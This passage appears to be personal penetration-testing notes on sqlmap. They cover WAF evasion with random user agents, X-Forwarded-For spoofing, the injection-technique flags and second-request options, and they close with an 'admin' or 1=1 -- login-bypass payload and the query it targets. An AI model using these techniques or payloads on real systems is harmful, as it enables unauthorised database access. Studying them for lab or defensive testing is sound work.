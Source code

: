 X-Forwarded-For: 127.0.0.1

---

### use random user agents for bypassing waf

`--random-agent`

---

### technique

**‘- - technique’**: Specifies the injection technique to be used, such as UNION-based, error-based, or time-based injection.

- B: Boolean-based blind

- E: Error-based

- U: Union query-based

- S: Stacked queries

- T: time-based blind

- Q: Inline queries

`--technique=BEUSTQ` → for select all

---

### csrf_token & csrf_url

---

### 2 requests

now can we pass a second request to sqlmap beside one request???

Do this:

sqlmap -r login.txt  --second-req second.txt

or if you have another url do this:
sqlmap -r login.txt  --second-url "[http://10.10.10.10/details.php](http://10.10.10.10/details.php)"

---

**Sql Injection**

```
SELECT title,body,date FROM news WHERE id=''
```

```
$username = admin' or 1=1 --

SELECT * FROM users WHERE username='$username' AND password=''
```
